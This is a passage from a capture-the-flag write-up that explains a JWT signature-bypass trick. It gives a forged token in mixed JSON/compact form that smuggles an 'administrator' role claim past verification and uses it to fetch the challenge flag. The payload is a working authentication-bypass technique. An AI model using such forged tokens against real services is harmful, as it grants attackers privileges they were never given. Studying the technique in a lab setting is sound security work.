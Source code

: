 The return value is a mix form of JSON and compact representation. You need to paste the entire value including "{" and "}" as your new JWT Web token.

```json
Authorization: {"  eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3MTAzOTY2NTAsImlhdCI6MTcxMDM5MzA1MCwianRpIjoiS1dIQVhUeWRUWXhJWHdlWjIwMU5VUSIsIm5iZiI6MTcxMDM5MzA1MCwicm9sZSI6ImFkbWluaXN0cmF0b3IiLCJ1c2VyIjoiZ3Vlc3RfdXNlciJ9.":"","protected":"eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9", "payload":"eyJleHAiOjE3MTAzOTY2NTAsImlhdCI6MTcxMDM5MzA1MCwianRpIjoiS1dIQVhUeWRUWXhJWHdlWjIwMU5VUSIsIm5iZiI6MTcxMDM5MzA1MCwicm9sZSI6Imd1ZXN0IiwidXNlciI6Imd1ZXN0X3VzZXIifQ","signature":"s-TtAkIi6JBvYqfdx9H8oWF5mA4-tOWPKGfv3rCPlIrA8ncyMgC9Ltobo_gk9GXaj9LmydRKKJPpYuCPsf8IFEmI3ex7LRx6mm84jKhTYQh09_X2U7TToEx-OEFdL7yz0OGKCQOLdBHiEYXVTGWnwIuP8tunOmws2OyVKH3FFI1SgtKAo7RtgwxD6spZBiv3R75B55mp8RDFMzh4luqmXMfV0sSw-mA8zRnr9J2Kb3Cpab88d-3HzQm99wrtwOM-t35ZDUsSFHw4CRyN4XQyuwvHlz2dltUjb8ZnPR7U8naiaSbC0MJIBmPezP26FKGpcpQpBtX5pg01zoKAu7C6OQ"}
```

Then we just have to copy the modified JWT to access the endpoint `/api/v1/flag`.

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/CA2024/Pasted%20image%2020240314002250.png)

Get the flag. 🎉